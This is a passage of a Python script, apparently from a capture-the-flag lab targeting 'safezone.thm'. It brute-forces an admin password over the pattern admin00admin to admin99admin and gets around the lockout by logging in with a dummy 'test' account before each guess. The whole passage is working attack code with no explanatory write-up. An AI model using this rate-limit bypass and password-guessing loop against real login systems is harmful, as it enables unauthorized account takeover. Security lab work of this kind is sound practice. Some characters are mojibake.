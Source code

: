 ```python
    'Referer': 'http://safezone.thm/index.php',
    'Upgrade-Insecure-Requests': '1',
    'Pragma': 'no-cache',
    'Cache-Control': 'no-cache'
}

# Dummy account (resets lockout)
DUMMY_CREDS = {
    'username': 'test',
    'password': 'test',
    'submit': 'Submit'
}

# Admin fuzz template
def admin_creds(passwd: str):
    return {
        'username': 'Admin',
        'password': passwd,
        'submit': 'Submit'
    }

def main():
    session = requests.Session()
    session.headers.update(HEADERS)

    # Iterate through admin00admin â€¦ admin99admin
    for x, y in product(range(10), repeat=2):
        trypass = f"admin{x}{y}admin"
        print(f"[+] Trying {trypass}â€¦", end=" ")

        # 1) Reset the rateâ€limit by logging in as your test user
        session.post(URL, data=DUMMY_CREDS, allow_redirects=True)

        # 2) Immediately try the admin login
        resp = session.post(URL, data=admin_creds(trypass), allow_redirects=True)

        body = resp.text

        # Check for failure messages
        if "Please enter valid login details" in body or "Too many failed" in body:
            print("âœ—")
        else:
            print("âœ…  SUCCESS!")
            print(f"    â†’ admin password is: {trypass}")
            return

    print("[-] Exhausted all guesses.")

if __name__ == "__main__":
    main()

```
